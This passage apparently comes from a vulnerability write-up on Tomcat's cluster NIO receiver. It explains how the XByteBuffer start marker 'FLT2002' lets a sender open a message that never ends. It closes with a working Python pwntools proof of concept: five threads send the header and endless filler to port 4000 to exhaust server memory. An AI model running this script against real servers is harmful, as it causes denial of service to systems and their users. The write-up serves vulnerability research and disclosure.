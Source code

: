 ```java
            }
            buffer.clear();     // make buffer empty
            //did we get a package
            count = reader.hasPackage()?1:-1;
        }
// NioTaskReceiver.java#164
```

The code flows to a location when the data from the socket is appended via the `append()` method of an `ObjectReader` object, the reader variable.

The `append()` method simply add the sent data to a buffer and continues.
![what's the point](/tomcatcluster/image-59.png)


While analyzing the `XByteBuffer` class, which is nothing more than a serializable `POJO`, it shows what the application is expecting from the input socket:

```java
public class XByteBuffer implements Serializable {

    //...

    private static final byte[] START_DATA = {70,76,84,50,48,48,50};
    private static final byte[] END_DATA = {84,76,70,50,48,48,51};
```
The receiver expects a header to be sent in order to recognize that this is an XByteBuffer object. The above byte sequences are just the decimal representation of the ASCII sequences: `FLT2002` for `START_DATA` and `TLF2003` for `END_DATA`.

So, assuming an attacker never sends an END_DATA char sequence, what could go wrong?


## PoC || GTFO

```python
#!/usr/bin/env python3
# coding: utf-8
from pwn import *
import time
import threading
import subprocess
threads = []


def send_payload():
    r = remote("localhost", 4000)
    while True:
        r.send(b"FLT2002" + b"A" * 10000)

for _ in range(5):
    new_thread = threading.Thread(target=send_payload)
    threads.append(new_thread)
    new_thread.start()
for old_thread in threads:
    old_thread.join()
```
